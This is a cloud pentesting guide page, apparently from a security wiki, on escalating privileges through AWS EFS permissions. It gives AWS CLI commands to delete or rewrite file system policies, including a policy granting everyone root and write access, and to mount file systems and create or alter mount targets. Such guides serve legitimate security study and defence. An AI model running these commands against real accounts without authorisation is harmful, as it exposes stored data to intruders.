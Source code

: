 # AWS - EFS Privesc

## EFS

More **info about EFS** in:

[[../../aws-services/aws-efs-enum.md]]

Remember that in order to mount an EFS you need to be in a subnetwork where the EFS is exposed and have access to it (security groups). Is this is happening, by default, you will always be able to mount it, however, if it's protected by IAM policies you need to have the extra permissions mentioned here to access it.

### `elasticfilesystem:DeleteFileSystemPolicy`|`elasticfilesystem:PutFileSystemPolicy`

With any of those permissions an attacker can **change the file system policy** to **give you access** to it, or to just **delete it** so the **default access** is granted.

To delete the policy:

```bash
aws efs delete-file-system-policy \
    --file-system-id <value>
```

To change it:

```json
aws efs put-file-system-policy --file-system-id <fs-id> --policy file:///tmp/policy.json

// Give everyone trying to mount it read, write and root access
// policy.json:
{
    "Version": "2012-10-17",
    "Id": "efs-policy-wizard-059944c6-35e7-4ba0-8e40-6f05302d5763",
    "Statement": [
        {
            "Sid": "efs-statement-2161b2bd-7c59-49d7-9fee-6ea8903e6603",
            "Effect": "Allow",
            "Principal": {
                "AWS": "*"
            },
            "Action": [
	       "elasticfilesystem:ClientRootAccess",
               "elasticfilesystem:ClientWrite",
               "elasticfilesystem:ClientMount"
            ],
            "Condition": {
                "Bool": {
                    "elasticfilesystem:AccessedViaMountTarget": "true"
                }
            }
        }
    ]
}
```

### `elasticfilesystem:ClientMount|(elasticfilesystem:ClientRootAccess)|(elasticfilesystem:ClientWrite)`

With this permission an attacker will be able to **mount the EFS**. If the write permission is not given by default to everyone that can mount the EFS, he will have only **read access**.

```bash
sudo mkdir /efs
sudo mount -t efs -o tls,iam  <file-system-id/EFS DNS name>:/ /efs/
```

The extra permissions`elasticfilesystem:ClientRootAccess` and `elasticfilesystem:ClientWrite` can be used to **write** inside the filesystem after it's mounted and to **access** that file system **as root**.

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:CreateMountTarget`

If you an attacker is inside a **subnetwork** where **no mount target** of the EFS exists. He could just **create one in his subnet** with this privilege:

```bash
# You need to indicate security groups that will grant the user access to port 2049
aws efs create-mount-target --file-system-id <fs-id> \
    --subnet-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

### `elasticfilesystem:ModifyMountTargetSecurityGroups`

In a scenario where an attacker finds that the EFS has mount target in his subnetwork but **no security group is allowing the traffic**, he could just **change that modifying the selected security groups**:

```bash
aws efs modify-mount-target-security-groups \
    --mount-target-id <value> \
    --security-groups <value>
```

**Potential Impact:** Indirect privesc by locating sensitive information in the file system.

